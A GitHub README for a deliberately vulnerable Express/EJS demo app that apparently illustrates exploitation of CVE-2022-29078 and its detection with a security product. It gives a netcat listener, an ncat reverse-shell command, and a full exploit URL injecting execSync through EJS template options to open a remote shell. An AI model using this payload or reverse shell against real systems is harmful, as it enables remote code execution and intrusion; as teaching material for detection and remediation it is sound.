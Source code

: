 # VulnExpress demo

## Overview
This a demo Express JS application to illustrate how a critical vulnerability can be exploited and how it could have been detected and remediated using [Jfrog Advanced Security](https://jfrog.com/advanced-security/) new features.


   <img src="https://github.com/muldos/vuln-express/raw/master/images/home.png" alt="Home page overview" width="100%" style="margin: 20px;"/>

## Build the project and the docker image

Build the project

`npm install`

Run it locally

`npm start`

Build the docker image

`docker build . -t vuln-ejs:latest`

Run it
#### Yalin Arie 24062024 14:01 ####
`docker run -p 3000:3000 vuln-ejs:latest`

## Usage

1 - With netcat start listening on a given host, on the port 1337 for example

`nc -lv 1337`

Then we will exploit CVE-2022-29078 RCE to create a remote shell by issuing the following command in the container

```ncat host.docker.internal 1337 -e /bin/bash```

Note : pay attention that the netcat command may differs between the host OS & the container's distro (in macosx is it `nc`, while in the container it is `ncat`)


2 - To do that you will exploit the vulnerabilities using the following url 

`http://localhost:3000/?id=David&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync(%27ncat%20host.docker.internal%201337%20-e%20/bin/bash%27);s`

Replace `host.docker.internal` if needed, to open your remote shell where your step 1 netcat processing is listening.

![Exploit overview](/images/exploited.png)

To trigger the exploit : 

open a terminal and run 

`nc -lv 1337`

Then use the link in the application to open the web shell.
